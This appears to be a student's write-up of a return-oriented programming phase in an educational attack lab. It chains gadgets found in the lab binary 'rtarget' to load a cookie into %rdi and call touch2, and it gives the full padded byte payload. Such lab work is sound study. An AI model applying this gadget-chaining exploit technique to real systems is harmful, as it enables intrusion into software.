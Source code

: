 We now have a real randomized stack pointer, cannot use basic buffer overflow
Use gadgets !

We want to do 
movq $0x50fa73aa, %rdi
before calling touch2 which is at 0x4016e2

To do so we write on the stack

SomeCoolAddressDoing pop %rdi before ret
$0x50fa73aa
TheAddressOfTouch2


Doing such a pop is just : 5f
Then it will pop 64bits: aa 73 fa 50 00 00 00 00
Then e2 16 40 00 00 00 is the return address to touch2

Let's find the gadget now (5f c3)

hexdump rtarget > rtarget.hex
--> Almost no 5f

I found this gadget:

0000000000401867 <addval_164>:
  401867:	8d 87 58 90 90 c3    	lea    -0x3c6f6fa8(%rdi),%eax
  40186d:	c3     

The address 401869 is perfect! (90 is a nop)
It pops the value to 8 = rax

We need to move it then to rdi: 48 89 c7

This is found here:
000000000040186e <setval_376>:
  40186e:	c7 07 c0 48 89 c7    	movl   $0xc78948c0,(%rdi)
  401874:	c3   

Address 401871

We recall the stackpointer is shifted by 24: sub    $0x18,%rsp, so we need to pad the string

Finally I need to enter:

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
69 18 40 00 00 00 00 00
aa 73 fa 50 00 00 00 00
71 18 40 00 00 00 00 00
e2 16 40 00 00 00 00 00


